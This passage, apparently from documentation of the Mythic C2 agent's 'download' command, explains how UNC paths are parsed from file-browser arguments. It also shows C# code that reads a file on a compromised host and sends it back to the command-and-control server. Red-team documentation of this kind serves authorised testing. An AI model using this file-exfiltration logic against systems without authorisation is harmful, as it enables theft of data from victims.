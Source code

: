 
**UNC Path Features**:
* **Regex Parsing**: Uses regex to extract hostname and path from UNC paths
* **Hostname Extraction**: Separates hostname from file path in UNC format
* **Localhost Resolution**: Converts localhost/127.0.0.1 to actual callback host
* **Case Normalization**: Converts hostnames to uppercase for consistency

### 3. File Browser Integration

The command includes comprehensive file browser integration:

```python
async def parse_dictionary(self, dictionary_arguments):
    if "host" in dictionary_arguments:
        if "full_path" in dictionary_arguments:
            self.add_arg("path", f'\\\\{dictionary_arguments["host"]}\\{dictionary_arguments["full_path"]}')
        elif "path" in dictionary_arguments:
            self.add_arg("path", f'\\\\{dictionary_arguments["host"]}\\{dictionary_arguments["path"]}')
        elif "file" in dictionary_arguments:
            self.add_arg("path", f'\\\\{dictionary_arguments["host"]}\\{dictionary_arguments["file"]}')
```

**Browser Integration Features**:
* **Multiple Path Formats**: Supports full_path, path, and file parameters from browser
* **UNC Construction**: Automatically constructs UNC paths for remote files
* **Default Handling**: Provides default path handling for browser invocations
* **Parameter Flexibility**: Handles various parameter naming conventions

### 4. Core File Reading and Transfer Logic

The C# implementation handles the actual file reading and transfer:

```csharp
public override void Start()
{
    DownloadParameters parameters = _jsonSerializer.Deserialize<DownloadParameters>(_data.Parameters);
    string host = parameters.Hostname;
    
    if (string.IsNullOrEmpty(parameters.Hostname) && !File.Exists(parameters.FileName))
    {
        resp = CreateTaskResponse($"File '{parameters.FileName}' does not exist.", true, "error");
    }
    else
    {
        // Path resolution and file reading logic
        byte[] fileBytes = File.ReadAllBytes(path);
        
        if (_agent.GetFileManager().PutFile(_cancellationToken.Token, _data.ID, fileBytes,
                parameters.FileName, out string mythicFileId, false, host))
        {
            resp = CreateTaskResponse(mythicFileId, true, "completed", artifacts);
        }
    }
}
```
